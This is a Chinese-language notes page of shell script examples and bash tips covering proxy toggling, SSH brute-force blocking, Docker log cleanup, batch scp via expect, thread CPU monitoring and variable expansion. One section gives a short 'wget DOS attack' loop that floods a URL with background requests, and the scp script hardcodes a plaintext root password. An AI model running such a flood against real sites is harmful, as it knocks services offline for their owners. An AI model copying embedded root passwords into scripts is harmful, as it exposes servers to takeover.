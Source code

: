 - [shell脚本案例](#shell脚本案例)
  - [切换代理状态](#切换代理状态)
  - [脚本合集](#脚本合集)
  - [防止暴力破解ssh密码](#防止暴力破解ssh密码)
  - [虚拟机创建初始化配置脚本](#虚拟机创建初始化配置脚本)
  - [docker日志检查 日志清理](#docker日志检查-日志清理)
  - [远程批量替换文件脚本](#远程批量替换文件脚本)
  - [wget DOS攻击简单脚本](#wget-dos攻击简单脚本)
  - [telnet可以测试端口是否开放](#telnet可以测试端口是否开放)
  - [查看CPU使用率高的线程](#查看cpu使用率高的线程)
- [shell 技巧](#shell-技巧)
  - [trap wait](#trap-wait)
  - [shell语法坑](#shell语法坑)
  - [变量扩展语法](#变量扩展语法)
  - [文件描述符 重定向](#文件描述符-重定向)
  - [正则表达式匹配](#正则表达式匹配)
  - [shell特殊字符处理](#shell特殊字符处理)

# shell脚本案例

## 切换代理状态

```shell
function toggle_proxy_internal() {
    if [ -z "$1" ]; then
        unset http_proxy
        unset https_proxy
        echo "Proxy settings cleared."
    else
        export http_proxy="$1"
        export https_proxy="$1"
        echo "Proxy set to $1."
    fi
}

# 检查 http_proxy 和 https_proxy 是否已设置
function toggle_proxy() {
    if [ -z "$http_proxy" ] && [ -z "$https_proxy" ]; then
        toggle_proxy_internal "http://192.168.124.7:7890"
    else
        toggle_proxy_internal
    fi
}
```

## 脚本合集 

https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&__biz=MzU5NDg5MzM5NQ==&scene=1&album_id=1688640897556512775&count=3#wechat_redirect

## 防止暴力破解ssh密码
```
#!/bin/sh
#登录失败次数大于10的ip
IP=$(awk '/Failed/{print $(NF-3)}' /var/log/secure | sort |uniq -c |awk '{if($1>10) print $2}')
hostdeny=/etc/hosts.deny
for i in $IP
do
#如果ip不存在，则写入deny文件
if [ ! $(grep $i $hostdeny) ];then
echo "sshd:$i" >> $hostdeny
fi
done
```
## 虚拟机创建初始化配置脚本
```shell
sed -i '/IPADDR=192.168.3/c\IPADDR=192.168.3.xxx' /etc/sysconfig/network-scripts/ifcfg-eth0
systemctl restart network 
ip addr
```


## docker日志检查 日志清理
添加cron可以定期清理
```shell
#!/bin/sh
echo "======== docker containers logs file size ========"  
logs=$(find /var/lib/docker/containers/ -name *-json.log)  
for log in $logs  
        do  
             ls -lh $log   
        done 
```
```shell
#!/bin/sh 
echo "======== start clean docker containers logs ========"  
logs=$(find /var/lib/docker/containers/ -name *-json.log)  
for log in $logs  
        do  
                echo "clean logs : $log"  
                cat /dev/null > $log  
        done  
echo "======== end clean docker containers logs ========"  
```
## 远程批量替换文件脚本

```shell
#!/bin/bash
#scp自动替换文件
IPS="192.168.3.101 192.168.3.102 192.168.3.103 192.168.3.104 192.168.3.105 192.168.3.107 192.168.3.108 192.168.3.110"
for IP in $IPS
do
expect <<- EOF
     spawn scp /www/wwwroot/dev/app/home/view/index/index.html root@$IP:/www/wwwroot/dev/app/home/view/index/index.html
     expect {
		"yes/no" {send "yes\n"; exp_continue}
		"password:" {send "CDLSdm\n"}
	}
     expect eof
EOF
echo "$IP already done"
done
```

## wget DOS攻击简单脚本

```shell
URL="http://www...com"
while true; do
    wget -q -nc $URL -b &>/dev/null
done
```

## telnet可以测试端口是否开放

```shell
telnet 192.168.3.254 3306
```
原理我猜是建立TCP连接  

## 查看CPU使用率高的线程

```shell
#!/bin/bash
LANG=C
PATH=/sbin:/usr/sbin:/bin:/usr/bin
interval=1
length=86400
for i in $(seq 1 $(expr ${length} / ${interval}));do
date
LANG=C ps -eT -o%cpu,pid,tid,ppid,comm | grep -v CPU | sort -n -r | head -20
date
LANG=C cat /proc/loadavg
{ LANG=C ps -eT -o%cpu,pid,tid,ppid,comm | sed -e 's/^ *//' | tr -s ' ' | grep -v CPU | sort -n -r | cut -d ' ' -f 1 | xargs -I{} echo -n "{} + " && echo ' 0'; } | bc -l
sleep ${interval}
done
```

# shell 技巧

## trap wait

例子：

trap "kill $CRONPID; wait $CRONPID" SIGINT SIGTERM

trap捕获SIGINT SIGTERM，类似signal.Notify

wait会等待进程关闭再继续执行


## shell语法坑

shell中变量的值不是是多行字符串，如果是，就会被转换成空格间隔的字符串

## 变量扩展语法

`readonly`说明MARIADB_USERNAME只能被赋值一次。`${MARIADB_USERNAME:-iam}`使用了Bash shell的**变量扩展语法**，其语法格式为`${待测变量:-默认值}`，表示：如果待测变量不存在或其值为空，则返回默认值，否则返回待测变量的值。

还有一个扩展语法是`${var:?print}`，会在不存在变量时打印错误信息退出

来源：goiam课程
https://github.com/marmotedu/iam/blob/book/docs/guide/zh-CN/installation/05_%E5%AE%89%E8%A3%85%E5%92%8C%E9%85%8D%E7%BD%AE%E6%95%B0%E6%8D%AE%E5%BA%93.md

## 文件描述符 重定向

设置永久重定向

Exp:
```shell
exec 3> filename
exec 2>> filename
exec 0< filename
exec 3>&1
```
## 正则表达式匹配

https://blog.csdn.net/dc666/article/details/46007507

```shell
[[ `hostname` =~ -([0-9]+)$ ]] || exit 1          
ordinal=${BASH_REMATCH[1]}
```

## shell特殊字符处理

[source](https://mp.weixin.qq.com/s?__biz=MzU5NDg5MzM5NQ==&mid=2247499943&idx=1&sn=4e1a589411368f77e932228057b48ba9&chksm=fe78cf9bc90f468ddb67f5ae794d3e360c729a86e0c113471111a88974f09e1d879d04670460&mpshare=1&scene=1&srcid=11143Xwns6V0PZas5gSKrWUt&sharer_sharetime=1668396497114&sharer_shareid=1817186607f682c2c8dc4a6ca1d644dc&version=4.1.0.6007&platform=win#rd)
